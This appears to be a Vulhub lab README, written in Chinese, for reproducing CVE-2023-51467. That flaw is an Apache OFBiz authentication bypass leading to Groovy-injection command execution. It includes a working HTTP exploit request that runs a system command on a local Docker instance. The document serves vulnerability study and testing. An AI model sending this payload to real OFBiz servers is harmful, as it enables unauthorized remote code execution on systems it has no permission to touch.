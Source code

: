 # Apache OFBiz 鉴权绕过导致命令执行（CVE-2023-51467）

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

这个漏洞的原因是对于[CVE-2023-49070](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-49070)的不完全修复。在Apache OFBiz 18.12.10版本中，官方移除了可能导致RCE漏洞的XMLRPC组件，但没有修复权限绕过问题。来自长亭科技的安全研究员利用这一点找到了另一个可以导致RCE的方法：Groovy表达式注入。

参考连接：

- <https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa>
- <https://xz.aliyun.com/t/13211>
- <https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/>

## 漏洞环境

执行如下命令启动一个Apache OfBiz 18.12.09版本：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

直接发送如下请求即可使用Groovy脚本执行`id`命令：

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

groovyProgram=throw+new+Exception('id'.execute().text);
```

![](1.png)
